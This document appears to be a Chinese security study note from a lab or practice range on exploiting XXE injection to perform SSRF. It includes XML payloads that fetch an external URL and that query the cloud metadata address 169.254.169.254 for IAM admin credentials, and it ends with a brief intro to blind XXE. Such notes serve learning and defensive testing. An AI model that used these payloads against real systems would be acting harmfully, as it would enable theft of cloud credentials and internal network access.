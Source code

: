 # XXE 注入执行 SSRF 攻击

```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://www.oswe.com/pikachu/"> ]>
<user>
  <name>Alice</name>
  <email>&xxe;</email>
</user>
```

![image-20250417205602143](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250417205602143.png)

日志出现记录：

![image-20250417205620065](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250417205620065.png)

### 实验

```
# 靶场让我们 xxe 访问如下 ip。

http://169.254.169.254/

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```

同样 productId 能回显不存在的数据，直接发送 payload：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

![image-20250416161940730](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250416161940730.png)

### XXE 盲注

XXE 盲注发生在存在 XXE 漏洞，但是不回显数据的情况，通常你可以进行带外测试来验证 XXE 盲注的存在。

XXE 盲注仍可被利用，但需要更高级的技术。